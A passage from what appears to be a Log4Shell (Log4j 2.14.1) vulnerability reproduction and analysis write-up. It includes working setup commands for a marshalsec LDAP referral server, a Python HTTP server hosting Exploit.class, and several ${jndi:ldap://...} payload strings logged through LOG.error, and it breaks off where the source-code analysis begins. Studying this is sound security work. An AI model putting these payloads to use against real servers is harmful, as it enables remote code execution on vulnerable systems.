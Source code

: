 Either way (with and without package name) 

```
# OKay1(With)
# Problematic Code
# Copy the full path of the com/github/test/Exploit.class file to the directory to be downloaded (must be the root directory of the http web server)

# ready to work
python -m SimpleHTTPServer 8888 #python3 # Must be in the same root directory as Exploit.class
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#com.github.test.Exploit"

# Output Format
LOG.error("${jndi:ldap://127.0.0.1:1389/#com}");
LOG.error("${jndi:ldap://127.0.0.1:1389/#com.github.test.Exploit}");
LOG.error("${jndi:ldap://127.0.0.1:1389/#co}");
LOG.error("xxx:{}","${jndi:ldap://127.0.0.1:1389/#co}");
```

```
# OKay2(Without)
# Problematic Code
# Copy the Exploit.class file to the directory to be downloaded ( must be the same root directory of the http web server ) 

# Ready to work
python -m SimpleHTTPServer 8888 #python3 #Must be in the same root dirctory Exploit.class
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Exploit"

# Output Format
LOG.error("${jndi:ldap://10.201.0.170:1389/#Exploit}”);

```


Vulnerability Analysis

&nbsp;&nbsp;&nbsp;&nbsp;Now let's analysis general calling logic in the source code class the runtime stack, i will analysis the problem step by step from the `log.error(message)` method (`fatal` is similar). I will only talk about the main classes and code snippets. The `logo-core` i use is version `2.14.1`. Other versions will be slightly differenet, but the code logic of the core vulnerability execution is the same. I will skip some nethods. Mainly analyze some important steps. 
`org.apache.logging.log4j.core.pattern.MessagePatternConverter#format`


<center>